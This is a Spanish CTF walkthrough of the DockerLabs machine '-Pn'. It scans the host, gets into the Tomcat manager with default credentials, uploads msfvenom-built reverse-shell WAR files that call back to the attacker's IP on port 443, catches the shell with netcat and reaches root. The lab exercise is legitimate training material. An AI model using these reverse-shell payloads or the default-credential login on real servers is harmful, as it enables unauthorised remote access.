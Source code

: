 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "-Pn".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh pn.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene  abierto el puerto 8080 donde corre un Tomcat.
```
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

```
Vamos pues a acceder al puerto 8080, por lo que vamos a poner la IP de la maquina victima seguida del puerto en el navegador Web y vemos que sale la pagina por defecto del Apache Tomcat.

Se puede observar tambien que hay una parte, en la linea del "tomcat9-admin" donde pone "manager webapp" donde pincharemos y se nos abrira un panel Login.

Hay que entender ahora una cosa y es que, por defecto, Apache Tomcat ya viene con unas credenciales por defecto.

Para obtenerlas, buscamos en Google "hacktricks apache tomcat default credentials" y en la propia Web de "hacktricks" iremos al siguiente enlace:

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

Una vez estemos en esta pagina, iremos a la seccion donde pone "Default credentials" donde se veran varias posibles contraseñas, las cuales habria que ir probando una por una.

Un truquito, aunque no siempre funciona, seria darle a "Cancel" en el panel de Login, y al darnos el error 401 de "No autorizado" suelen dar las credenciales.

Pero como como acabo de decir, NO siempre funciona.
```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation.

That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

	<role rolename="manager-gui"/>
    <user username="tomcat" password="s3cr3t" roles="manager-gui"/>
```
Bien, ya sabiendo el usuario y la contraseña, hacemos login, vamos al panel de administracion de Tomcat y nos ubicamos en la zona donde pone "WAR file to deploy", donde podremos subir archivos maliciosos en formato ".war" para poder ganar acceso a dicha maquina victima.

¿Y como creo un archivo malicioso? EXACTO !!! Con MSFVENOM !!!
```
msfvenom -p java/shell_reverse_tcp LHOST=IPMAQUINAATACANTE LPORT=PUERTOMAQUINAATACANTE -f war -o NOMBREARCHIVOQUEQUERAMOS.war
            
	-p java/shell_reverse_tcp = ponemos el payload reverse shell de JAVA debido a que los archivos ".war" funcionan con JAVA
```
 Una vez tengamos el archivo, lo subiremos y probaremos si funciona. ¿Por que digo probaremos si funciona?
 
 Porque lo normal es que lo haga, pero muchas veces, y dependiendo de como este hecho el servidor puede funcionar o no.
 
 Para ello, vamos a ver dos opciones (bueno, en realidad 2 Payloads diferentes):d
```
1) msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse1.war

2) msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse2.war
```
Como he dicho antes, esto depende de come este configurado el servidor Tomcat, por lo que asi nos aseguramos que alguno de los dos funcione.

Ahora subimos los dos y nos apareceran en la pantalla de control del Tomcat Web Manager App:
```
/reverse1 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
/reverse2 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
```
Perfecto, ya tenemos los dos archivos subidos. Lo siguiente, COMO SIEMPRE, es ponernos a la escucha con NETCAT usando el comando:
```
nc -nlvp 443
```
y ejecutar los archivos uno por uno para ver cual de los dos funciona (o los 2 :P)

Ejecutado el primero, ya vemo que SI funciona:
```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36530  
```
Perfecto !! Ahora sin embargo, hay que hacer, COMO SIEMPRE, un tratamiento de la TTY escribiendo lo siguiente:
```
(El tratamiento TTY SIEMPRE es igual)

	script /dev/null -c bash
	Ahora presionamos (CTRL + Z)
	stty raw -echo; fg
	reset xterm
	export TERM=xterm
	export SHELL=bash
```
Una vez terminado el tratamiento de la TTY, vemos que ya somos "root", pero para asegurarnos, escrimos "whoami" y listo :) !!
```
root@aad1731916f7:/# whoami
root

root@aad1731916f7:/# 
```
Y en principio, con esto ya estaria la maquina "-Pn" terminada.
